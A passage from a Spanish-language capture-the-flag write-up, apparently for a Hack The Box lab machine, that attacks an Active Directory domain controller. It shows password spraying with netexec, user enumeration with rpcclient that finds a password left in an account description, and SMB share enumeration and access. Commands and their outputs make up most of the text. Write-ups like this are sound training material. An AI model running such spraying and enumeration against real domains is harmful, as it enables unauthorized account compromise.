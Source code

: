 ~~~
SMB         10.10.11.35     445    CICADA-DC        1601: CICADA\emily.oscars (SidTypeUser)
~~~
Con esto se pueden usuarios validos como sarah.dantelia y demas, por lo que se las añade a un archivo para tenerlo mas organizado y se prodece a hacer un barrido de cuentas para ver si alguna tiene las credenciales por defecto como contraseña.
~~~bash
sudo netexec smb 10.10.11.35 -u users -p pass          
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\john.smoulder:Ci<SNIP>!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [-] cicada.htb\sarah.dantelia:Ci<SNIP>!8 STATUS_LOGON_FAILURE 
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Ci<SNIP>!8
~~~
Como se puede ver, existe una coincidencia con el usuario michael.
Al realizar enumeracion de recursos compartidos no se pudo encontrar nada, pero se nos ocurre hacer enumeracion por el protocolo rpc para ver si se encuentra algo util.
~~~bash
rpcclient -U 'michael.wrightson' 10.10.11.35
Password for [WORKGROUP\michael.wrightson]:
rpcclient $> querydispinfo
index: 0xeda RID: 0x1f4 acb: 0x00000210 Account: Administrator  Name: (null)    Desc: Built-in account for administering the computer/domain
index: 0xfeb RID: 0x454 acb: 0x00000210 Account: david.orelious Name: (null)    Desc: Just in case I forget my password is aR<SNIP>!3
index: 0x101d RID: 0x641 acb: 0x00000210 Account: emily.oscars  Name: Emily Oscars      Desc: (null)
index: 0xedb RID: 0x1f5 acb: 0x00000214 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xfe7 RID: 0x450 acb: 0x00000210 Account: john.smoulder  Name: (null)    Desc: (null)
index: 0xf10 RID: 0x1f6 acb: 0x00020011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account
index: 0xfe9 RID: 0x452 acb: 0x00000210 Account: michael.wrightson      Name: (null)    Desc: (null)
index: 0xfe8 RID: 0x451 acb: 0x00000210 Account: sarah.dantelia Name: (null)    Desc: (null)
rpcclient $> exit
~~~
Por suerte, al enumerar el servicio rpc, se pudo ser ve el usuario david tiene sus credenciales como comentarios en su descripcion, esto es una muy mala practica pero se puede probar dichas credenciales.
~~~bash
sudo netexec smb 10.10.11.35 -u 'david.orelious' -p 'aR<SNIP>!3' --shares
SMB         10.10.11.35     445    CICADA-DC        [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\david.orelious:aR<SNIP>!3 
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV             READ            
SMB         10.10.11.35     445    CICADA-DC        HR              READ            
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share
~~~
Como se puede ver, este tiene acceso a otra carpeta del recurso compartido (DEV), entonces se entra para ver que tipo de contenido puede tener.
~~~bash
smbclient -U 'david.orelious' //10.10.11.35/DEV
Password for [WORKGROUP\david.orelious]:
~~~